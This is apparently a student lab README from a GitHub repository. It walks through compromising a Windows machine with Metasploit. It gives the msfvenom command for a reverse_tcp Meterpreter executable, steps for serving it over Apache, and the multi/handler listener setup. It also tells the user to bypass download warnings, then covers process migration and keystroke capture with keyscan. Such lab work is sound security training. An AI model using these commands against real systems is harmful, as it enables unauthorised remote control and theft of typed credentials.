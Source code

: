 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

## OUTPUT:
![image](https://github.com/Shobika187/Compromising-windows-using-Metasploit/assets/94508142/c828dc3b-0950-4b85-a0d9-eb07782e90ef)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe.
## OUTPUT:
![image](https://github.com/Shobika187/Compromising-windows-using-Metasploit/assets/94508142/79999a69-ac6e-404c-b2a5-e2175a49a698)
the fun.exe into the apache /var/www/html folder

![image](https://github.com/Shobika187/Compromising-windows-using-Metasploit/assets/94508142/83f50d9d-f2f6-49ae-ba7d-8fb2594795c3)


Start apache server sudo systemctl apache2 start
![image](https://github.com/Shobika187/Compromising-windows-using-Metasploit/assets/94508142/b7fb41ee-baa5-4874-9523-2a3b95bcd198)
Check the status of apache2
![image](https://github.com/Shobika187/Compromising-windows-using-Metasploit/assets/94508142/647113b2-98db-4de7-859b-04da1361dd50)
Invoke msfconsole:

## OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit
![image](https://github.com/Shobika187/Compromising-windows-using-Metasploit/assets/94508142/3f078903-42c9-46f2-99ed-2baab366bc27)
On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.
![image](https://github.com/Shobika187/Compromising-windows-using-Metasploit/assets/94508142/6e4cd44a-79e7-47a3-ab0d-439b2f892c9d)
Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
![image](https://github.com/Shobika187/Compromising-windows-using-Metasploit/assets/94508142/bbdc1d60-c3e0-42dc-bb13-fac3f56b9dc8)
To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted.
![image](https://github.com/Shobika187/Compromising-windows-using-Metasploit/assets/94508142/27926ddb-ba4b-4a9b-a5dd-a6820006351f)
Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![image](https://github.com/Shobika187/Compromising-windows-using-Metasploit/assets/94508142/8845cb91-bb77-4c41-8e61-d66c74a93155)
keyscan_dump Shows the keystrokes captured so far
![image](https://github.com/Shobika187/Compromising-windows-using-Metasploit/assets/94508142/00a6fe1d-b702-407b-8ae7-c3acc15bfa6f)



## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
